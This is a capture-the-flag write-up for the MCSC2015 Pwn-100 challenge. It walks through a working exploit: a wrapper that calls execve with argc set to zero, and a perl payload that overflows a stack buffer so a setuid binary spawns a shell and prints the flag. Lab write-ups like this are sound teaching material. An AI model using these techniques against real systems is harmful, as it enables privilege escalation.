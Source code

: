 #MCSC2015 writeup for Pwn-100<br>


pwn0@MCSC2015:/challenges/pwn0$ ls -l<br>
total 16<br>
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0<br>
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG<br>
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /proc/sys/kernel/randomize_va_space <br>
2<br>
<br>
ASLR is on !!<br>
gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o 0.c<br>
after a quick view in pwn0.c, here's an interesting function<br>
<br>
```C
void vuln()
{
	unsigned int reg;
	char buffer[BUFF_SIZE];
	fgets(buffer , BUFF_SIZE+5 , stdin);
	if(reg == 78954)
	{
		printf("You Win\n");
		system("/bin/dash");
	}
}
```
However, this function is executed if and only if argc is equal to zero.<br>
In that case, execve can be handy ...<br>
<br>
<br>
Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.<br>
Step 2 : overwrite the variable reg with 78954<br>
if(reg == 78954)<br>
{<br>
	printf("You Win\n");<br>
	system("/bin/dash");<br>
}<br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
Step1 : run a program with argc=0<br>
What's special about the family exec call system ?<br>
execve allows you to specify the command-line arguments (including the program name).<br>
a normal call to execve for example would be :<br>
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....<br>
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.<br>
<br>
with that said, let's start exploiting .....<br>
First, we write a small program <br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing<br>
pwn0@MCSC2015:/tmp$ cd /tmp/testing/<br>
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c<br>
```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
```
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper<br>
pwn0@MCSC2015:/tmp/testing$ ./wrapper <br>
Good Boy<br>
test<br>
pwn0@MCSC2015:/tmp/testing$<br>
<br>
we are finally able to execute the vuln() function, let's try to exploit it:<br>
The buffer size is 64, 78954 to hexadecimal is 0x1346A<br>
===========================<br>
A successful exploitation would be like this:<br>
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper <br>
Good Boy<br>
You Win<br>
id<br>
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)<br>
cat FLAG<br>
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}<br>
<br>
